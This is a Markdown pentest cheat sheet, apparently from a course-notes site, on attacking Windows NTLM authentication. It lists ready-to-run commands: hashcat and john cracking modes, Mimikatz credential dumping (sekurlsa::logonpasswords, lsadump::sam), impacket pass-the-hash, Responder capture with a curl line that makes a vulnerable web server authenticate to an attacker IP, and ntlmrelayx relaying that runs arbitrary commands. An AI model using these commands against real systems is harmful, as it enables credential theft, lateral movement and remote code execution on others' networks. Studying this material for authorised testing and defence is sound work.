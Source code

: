```yaml
---
icon: windows
---
```


# NTLM

## Introduction

Windows stores hashed user passwords in the Security Account Manager (SAM) database file or at NTDS.DIT data base which is located at the Domain Controllers.\
Important thing to note that the hashes stored are not salted.

There are multiple versions of hashes that used to store passwords in windows.

### LM

LM hash is the most traditional way to store passwords in windows but it's considered weak and not enough. also, It’s disabled by default since windows vista/windows server 2008.

Cracking **LM** hash:

```bash
john --format=lm hash.txt
hashcat -m 3000 -a 3 hash.txt
```

### **NTHash**

On modern systems, the hashes are stored as NTHash hashes a.k.a NTLM.

Cracking NTHashes

```bash
john --format=nt hash.txt
hashcat -m 1000 -a 3 hash.txt
```

### NTLMv1 <a href="#id-1070" id="id-1070"></a>

The NTLMv1 A.K.A. Net-NTLMv1 protocol uses the **NTHash** in a challenge/response between a server and a client.

Cracking NTLMv1 hash:

```bash
john --format=netntlm hash.txt
hashcat -m 5500 -a 3 hash.txt
```

### NTLMv2 <a href="#id-4fef" id="id-4fef"></a>

NTLMv2 A.K.A. Net-NTLMv2 is the new and improved version of the NTLMv1 protocol, which makes it a bit harder to crack.

Cracking NTLMv2 hash:

```bash
john --format=netntlm hash.txt
hashcat -m 5600 -a 3 hash.txt
```

## Mimikatz&#x20;

**mimikatz** is a well known tool to extract passwords and hashes in windows environments.

{% hint style="warning" %}
NOTE: We can only extract SAM database if we are running Mimikatz as `Administrator` (or higher) and have the `SeDebugPrivilege`
{% endhint %}

We can also elevate our privileges to the _SYSTEM_ account with tools like _PsExec_[11](https://portal.offsec.com/courses/pen-200-44065/learning/password-attacks-44959/working-with-password-hashes-45019/cracking-ntlm-44965#fn-local\_id\_3266-11) or the built-in Mimikatz _token elevation_ to obtain the required privileges.&#x20;

It is possible to obtain the required privileges using `PsExec` or token elevation using mimkatz.

### First steps

Running mimikatz and checking basic priviliges:

```batch
.\mimikatz.exe
privilege::debug
```

Elevating to the required privileges

```batch
token::elevate
```

### Commands

Extract plaintext passwords and password hashes from all available sources

{% code overflow="wrap" %}
```batch
sekurlsa::logonpasswords 
```
{% endcode %}

Extract the hashes from the SAM.

```batch
lsadump::sam 
```

## Pass The hash

{% hint style="warning" %}
NOTE: In order to perform pass-the-hash a local Administrator is required unless the target machine is misconfigured.
{% endhint %}

Passing the hash using `psexec` from impacket:

```bash
impacket-psexec -hashes :<NTHash> <username>@<target>
```

## Capture Net-NTLMv2

### Responder

Responder is a tool which able to start a server running various services.\
The Responder server handles the authentication process and prints all captured credentials and hashes.\
It supports HTTP, FTP, SMB as well poisoning capabilities for LLMNR, NBT\_NS and MDNS.

***

Basic scenario for capturing NTLMv2 using vulnerable web application:

running responder

```bash
sudo responder -I <interface>
```

assuming web is vulnerable to path traversal and using smb shares to display pages:

```bash
curl --path-as-is  'http://<targer>/\\<attacker_responder_ip>/a'
```

The vulnerable website will then authenticate with the responder server and the hashes will be captured.&#x20;

## Relaying Net-NTLMv2

{% hint style="warning" %}
NOTE: In order to perform pass-the-hash a local Administrator is required unless the target machine is have UAC remote restrictions disabled. Also, smb signing needs to be disable.
{% endhint %}

In a scenario that NTLM is too hard to crack, it possible to relay the net-NTLM authentication hash to the service server.

In order to perform this attack, the tool `ntlmrelayx` by impacket scripts is used.\
Starting the `ntlmrelayx` server which will capture the Net-NTLM hash and relay it to the target machine:

{% code overflow="wrap" %}
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t <target> -c "<command>"
```
{% endcode %}



## References

{% embed url="https://en.hackndo.com/ntlm-relay/" %}
NTLM Relay - hackndo
{% endembed %}

{% embed url="https://github.com/SpiderLabs/Responder" %}
responder
{% endembed %}

{% embed url="https://github.com/ParrotSec/mimikatz" %}
mimkatz
{% endembed %}

{% embed url="https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4" %}
LM, NTLM, Net-NTLMv2, oh my!
{% endembed %}

\
